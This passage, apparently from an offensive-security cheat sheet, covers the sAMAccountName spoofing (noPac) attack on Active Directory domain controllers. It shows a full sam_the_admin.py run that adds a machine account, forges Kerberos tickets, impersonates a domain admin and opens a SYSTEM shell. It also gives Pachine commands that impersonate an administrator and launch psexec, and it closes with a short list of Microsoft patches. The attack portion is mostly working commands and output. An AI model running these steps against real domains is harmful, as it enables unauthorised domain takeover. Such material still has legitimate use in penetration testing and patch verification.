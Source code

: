     ```ps1
    $ python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell
    [*] Selected Target dc.caltech.white                                              
    [*] Total Domain Admins 11                                                        
    [*] will try to impersonat gaylene.dreddy                                         
    [*] Current ms-DS-MachineAccountQuota = 10                                        
    [*] Adding Computer Account "SAMTHEADMIN-11$"                                     
    [*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
    [*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
    [*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
    [*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
    [*] Saving ticket in dc.ccache                                                    
    [*] Resting the machine account to SAMTHEADMIN-11$                                
    [*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
    [*] Using TGT from cache                                                          
    [*] Impersonating gaylene.dreddy                                                  
    [*]     Requesting S4U2self                                                       
    [*] Saving ticket in gaylene.dreddy.ccache                                        
    [!] Launching semi-interactive shell - Careful what you execute                   
    C:\Windows\system32>whoami                                                        
    nt authority\system 
    ```
    
- [ly4k/Pachine](https://github.com/ly4k/Pachine)
    
    ```powershell
    usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]
    $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'
    $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate administrator 'domain.local/john:Passw0rd!'
    $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache
    $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'
    ```
    

**Mitigations**:

- [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007247-monthly-rollup-2c3b6017-82f4-4102-b1e2-36f366bf3520)
- [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008601-os-build-14393-4771-out-of-band-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
- [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)
- [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007205-os-build-20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
- [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
- [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)
